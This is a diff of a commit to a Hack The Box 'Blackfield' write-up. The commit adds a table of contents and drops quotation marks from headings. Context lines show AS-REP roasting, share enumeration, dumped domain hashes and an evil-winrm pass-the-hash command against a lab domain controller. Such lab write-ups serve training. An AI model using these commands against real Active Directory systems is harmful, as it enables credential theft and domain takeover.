

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-03-HTB-Blackfield-Write-up.md, in a window 1280 px wide and 900 px high, scrolled down 501 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-03-HTB-Blackfield-Write-up.md

````diff
--- a/_posts/2024-11-03-HTB-Blackfield-Write-up.md
+++ b/_posts/2024-11-03-HTB-Blackfield-Write-up.md
@@ -6,6 +6,19 @@ date:   2024-11-03 07:00:00 +0300
 image:  '/images/htb_blackfield.png'
 tags:   [Write-ups, HTB, OSCP+, Windows, Hard, Active-Directory]
 ---
+# Table of Contents
+- [Enumeration](#enumeration)
+  - [Nmap](#nmap)
+  - [SMB Null Session access allowed to find a List of Users](#smb-null-session-access-allowed-to-find-a-list-of-users)
+- [Foothold](#foothold)
+  - [AS-REP Roasting on the support user](#as-rep-roasting-on-the-support-user)
+  - [BloodHound Enumeration to find out that user support has ForceChangePassword over user audit2020](#bloodhound-enumeration-to-find-out-that-user-support-has-forcechangepassword-over-user-audit2020)
+  - [Changing the Password of the user audit2020 using rpcclient](#changing-the-password-of-the-user-audit2020-using-rpcclient)
+  - [Accessing SMB Share forensic using the user audit2020](#accessing-smb-share-forensic-using-the-user-audit2020)
+- [Privilege Escalation](#privilege-escalation)
+  - [Abusing SeBackupPrivilege as svc_backup to Dump SAM](#abusing-sebackupprivilege-as-svc_backup-to-dump-sam)
+  - [Abusing SeBackupPrivilege as svc_backup to NTDS.DIT with diskshadow.exe](#abusing-sebackupprivilege-as-svc_backup-to-ntdsdit-with-diskshadowexe)
+  - [Pass-the-Hash to get Administrator access using Evil-WinRM](#pass-the-hash-to-get-administrator-access-using-evil-winrm)
 
 # Enumeration
 ## Nmap
@@ -139,7 +152,7 @@ Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
 This is great, we got 3 valid users and the user support has PreAuth (Pre-authentication) disabled. This means we can do an AS-REP Roast attack on the support account!
 
 # Foothold
-## AS-REP Roasting on the "support" user
+## AS-REP Roasting on the support user
 We will use impacket-GetNPUsers to do an AS-REP Roasting attack on the user support:
 ```shell
 impacket-GetNPUsers blackfield.local/support -dc-ip 10.129.191.43 -no-pass
@@ -157,7 +170,7 @@ After waiting patiently for a few seconds, we successfully cracked the hash and
 ```shell
 support:#00^BlackKnight
 ```
-## BloodHound Enumeration to find out that user "support" has ForceChangePassword over user "audit2020"
+## BloodHound Enumeration to find out that user support has ForceChangePassword over user audit2020
 We tried to get access using impacket-psexec and evil-winrm, and we also checked for password reuse on the other users but got no luck.
 
 It's time to enumerate the domain further and see if the user support has any interesting rights.
@@ -215,7 +228,7 @@ SMB         10.129.191.43   445    DC01             [+] BLACKFIELD.local\audit20
 
 We can see on the results that the new credentials are indeed valid.
 
-## Accessing SMB Share "forensic" using the user "audit2020"
+## Accessing SMB Share forensic using the user audit2020
 With the new credentials we can proceed to enumerate the user audit2020. Evil-WinRM didn't work but we can see that the user audit2020 has read access to the SMB Share forensic:
 ```shell
 nxc smb 10.129.191.43 -u audit2020 -p Password123 --shares
@@ -516,7 +529,7 @@ Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b9
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d5b8632baf4c8d87b07a17e0ea6390a0:::
 ```
-
+## Pass-the-Hash to get Administrator access using Evil-WinRM
 We will use evil-winrm to pass-the-hash and get access as Administrator:
 ```shell
 evil-winrm -i 10.129.191.43 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
````
